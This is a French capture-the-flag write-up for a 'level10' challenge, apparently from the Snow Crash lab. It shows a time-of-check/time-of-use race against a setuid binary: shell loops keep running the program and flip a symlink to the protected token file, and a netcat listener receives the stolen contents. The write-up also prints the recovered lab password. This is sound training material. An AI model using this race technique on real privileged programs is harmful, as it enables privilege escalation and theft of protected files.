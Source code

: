 # Level 10

Home structure
```
$ ls -la
total 36
drwxrwx---+ 1 level10 level10   260 Jun 28 15:36 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```
```
$./level10 file host
	sends file to host if you have access to it
```
L'executable nous demandes un fichier avec des accès dessus et une ip ?
```
./level10 token 127.0.0.1
You don't have access to token
./level10 /tmp/toto 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```
On a plus d'info sur l'ip, il essaye de se connecter à l'ip via le port 6969. On va donc setup un petit serveur
```
$ nc -l 6969 &
[1] 2086
$ ./level10 /tmp/toto 127.0.0.1
Connecting to 127.0.0.1:6969 .. .*( )*.
Connected!
Sending file .. Hello
wrote file!
```
On recoit bien le contenu du fichier `/tmp/toto` qui est: `Hello`.

```
$ strace ./level10 /tmp/toto 127.0.0.1
...
access("/tmp/toto", R_OK)               = 0
write(1, "Connecting to 127.0.0.1:6969 .. ", 32Connecting to 127.0.0.1:6969 .. ) = 32
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
write(3, ".*( )*.\n", 8.*( )*.
)                = 8
write(1, "Connected!\n", 11Connected!
)            = 11
write(1, "Sending file .. ", 16Sending file .. )        = 16
open("/tmp/toto", O_RDONLY)             = 4
read(4, "Hello\n", 4096)                = 6
write(3, "Hello\n", 6Hello
)                  = 6
write(1, "wrote file!\n", 12wrote file!
)           = 12
```
Lors du strace de l'executable, on voit qu'il essaye d'`access` sur le fichier avec la permission `READ` avant de l'ouvrir et de se connecter. On pourrait peut être faire une [Race condition](https://en.wikipedia.org/wiki/Race_condition) ?

Donc pour ce faire, il faudrait lancer le programme avec comme fichier `toto` dont on a les permissions de `read` puis sur la miliseconde plus tard après l'execution d'`access` changer le fichier `toto` par un autre fichier dont on n'a pas la permission de lire comme le `token`. On peut le faire grace au `softlink`.

Et pour avoir le plus de chance possible on va lancer le programme à l'infini.

On lance `tmux` ou tous simplement 3 instance `ssh`.
- Une qui va executer le programme à l'infini
- Une qui va juste listen sur le port `6969`
- Et la dernière qui va link sur un fichier puis attendre une milisecond et relink sur `token`.

```sh
# Instance 1
while true; do ./level10 tata 127.0.0.1; done

# Instance 2
nc -kl 6969

# Instance 3
ln -sf /dev/null tata; sleep 0.1; ln -sf token tata
```
Et sur l'instance 2 on recoit donc le contenu de token qui est le mot de passe de flag10. `woupa2yuojeeaaed06riuj63c`
